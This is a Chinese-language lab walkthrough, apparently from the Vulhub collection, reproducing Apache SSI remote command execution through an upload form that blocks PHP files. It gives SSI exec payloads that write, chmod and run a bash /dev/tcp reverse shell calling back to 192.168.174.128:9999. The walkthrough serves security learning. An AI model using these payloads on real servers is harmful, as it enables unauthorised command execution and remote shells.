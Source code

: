 # Apache SSI 远程命令执行漏洞

## 漏洞描述

在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用`<!--#exec cmd="id" -->`语法执行任意命令。

参考链接：

- https://httpd.apache.org/docs/2.4/howto/ssi.html
- https://www.w3.org/Jigsaw/Doc/User/SSI.html

## 环境搭建

Vulhub运行一个支持SSI与CGI的Apache服务器：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/upload.php`，即可看到一个上传表单。

## 漏洞复现

正常上传PHP文件是不允许的，我们可以上传一个shell.shtml文件：

![image-20220221190853964](./images/202202211908075.png)

成功上传，然后访问shell.shtml，可见命令已执行，成功查看当前目录：

![image-20220221191023391](./images/202202211910477.png)

创建反弹shell，依次上传并访问shell.shtml（一共三次）

```
# 第一次写入webshell文件
<!--#exec cmd="echo 'bash -i >& /dev/tcp/192.168.174.128/9999 0>&1' > /var/www/html/shell.sh"-->
# 第二次修改webshell权限
<!--#exec cmd="chmod +x /var/www/html/shell.sh"-->
# 第三次执行webshell
<!--#exec cmd="/bin/bash /var/www/html/shell.sh"-->
```

成功接收反弹shell

![image-20220221191821240](./images/202202211918306.png)

